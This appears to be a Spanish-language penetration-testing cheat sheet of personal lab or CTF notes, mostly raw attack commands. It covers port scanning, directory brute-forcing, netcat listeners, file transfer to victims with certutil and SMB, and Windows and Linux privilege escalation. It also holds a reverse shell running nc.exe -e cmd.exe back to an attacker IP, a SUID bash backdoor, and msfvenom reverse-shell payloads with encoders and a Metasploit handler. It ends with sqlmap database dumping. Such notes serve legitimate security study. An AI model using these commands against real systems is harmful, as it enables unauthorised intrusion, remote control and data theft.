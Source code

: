 **identificar puertos abeirtos**
nmap -sS -p- --open -min-rate 5000 -n -vvv -Pn <ip victima>  -oG allPorts  //se guarda en formato grepeable para poder extraer los puertos con extractports
// -sS escaneo sigiloso 
// -p- escanea todos los puertos --open 
// -min-rate 5000 Intenta enviar al menos 5000 paquetes por segundo
//  -n No realiza resolución DNS
// -vvv Muestra resultados muy detallados 
// -Pn Desactiva la detección de hosts


####### identificar versiones de los puertos abiertos ######
nmap -sV -sC -p<puertos separados por ,> -n -v -Pn <ip victima> -oA scan
// -sV deteccion de versiones
// -sC ejecuta scripts por defecto
// -n No realiza resolución DNS
// -v muestra resultados detallados
// -Pn Desactiva la detección de hosts


##### scripts con nmap ######
nmap --script "vuln and safe" -p<puerto> <ip victima>


####### gobuster ########
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -x .txt,.php -t 100 | grep -v "301"
// dir para directorio
//-u para la url
// -w para pasarle el diccionario
// -x para agregar .txt a todos los datos del diccionario
// -t para los hilos
// | grep -v "301" para no mostrar los status


####### colocarse en escucha ########
nc -lvnp <puerto>


####### abrir un servidor para transferir archivos ############
python3 -m http.server <puerto>


####### escalacion de privilegios en Windows (Windows-Exploit-Suggester) ###############
//revissar version   systeminfo
// en el windows se coloca el comando systeminfo y ese output se guarda en linux en un archivo llamado systeminfo.txt
python2 windows-exploit-suggester -u //descarga el archivo
python2 windows-exploit-suggester -d (archivo descargado) -i systeminfo.txt

// privilegios whoami /priv
SeImpersonatePrivilege        Impersonate a client after authentication Enabled >>> juicipotato privilege escalation (churrasco.exe para sistemas antiguos) (https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)
pasar el archivo nc.exe a windows
reverseshell: churrasco.exe "\\<ip atacante>\recurso\nc.exe <ip atacante> <puerto> -e cmd.exe"

printspoofer

saber permisos icacls (directorio archivo)
otorgar permisos icacls "ruta\al\archivo" /grant NombreDeUsuario:F



######## transferir archivos de linux a windows ###########
//en linux abrir un servidor
en windows: certutil -urlcache -f http://<ip que esta enviando el archivo>:<puerto>/archivo.extension archivo.extension
OR
Linux: impacket-smbserver recurso $(pwd) -smb2support
windows: copy \\<ip atacante>\recurso\archivo.extension archivo.extension


######## transferir archivos de linux a linux ##########
//abrir servidor
wget http://<ip que esta enviando el archivo>:<puerto>/archivo.etension -O archivo.extension


######## escalar privilegios en linux ########
permisos sudo: sudo -l
permisos suid: find / -type f -perm -4000 -ls 2>/dev/null
linux versiones anteriores searchsploit dirty cow
listar tareas predefinidas : cat /etc/crontab


#####obtener texto de la web #########
curl -s -X GET "url"


#### de hexadecimal a normal ####
| xxd -ps -r; echo

##### de base 64 a normal #####
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d


#### convertir protegido por contraseña a hash ####
ssh2jhon.py 


####decifrar hash #####
hashid hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash -format=Raw-SHA256


######## reverseshell msfvenom ########
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=443 -f aspx -o shell2.aspx


######## ejecutar archivo para reverse shell #######
#!/bin/bash
chmod u+s /bin/bash


######### bash privilegiada ########
bash -p

######## mejorar bash ######## 
>script /dev/null -c bash
crtl + z
>stty raw -echo; fg
>reset xterm
>export TERM=xterm
stty size //en la terminal del atacante para saber el tamaño
stty rows <rows> columns <columns> //en la terminal de la victima para ajustar el tamaño

########## listar puertos ############
netstat -na -p tcp

########## vncviewer #########
local: 
sudo nano /etc/proxychains4.conf
socks4 127.0.0.1 1080
ssh user@host -D 1080
sudo proxychains vncviewer <parametros> (localhost)

########### dominio puerto 53 ########
nslookup
server ip
ip
(dig para saber subdominios)


########## exploit magento ############
froghopper attack


############ shell meterpreter con msfvenom y metasploit ##############
consola: msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.87.166 LPORT=1234 -f exe -o shell.exe
or
consola: msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.87.166 LPORT=1234 -f exe -o shell.exe

consola abre servidor: python3 -m http.server 8000
en el windows victima: certutil -urlcache -f http://ip_servidor:puerto_servidor/archivo archivo

msfconsole: use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
options
exploit

maquina victima: shell.exe


################## sqlmap ##################
sqlmap -r request.txt --dbms=mysql --dump



########  windows informacion de servicios que estan corriendo ###########
sc queryex | find /i "SERVICE_NAME:"
binarios corriendo
ps


################## listar smb #############
smbclient -L ip            ver recursos compartidos
smbclient  //ip/recurso
get archivo        descargar archivo
put archiv         subir archivo 
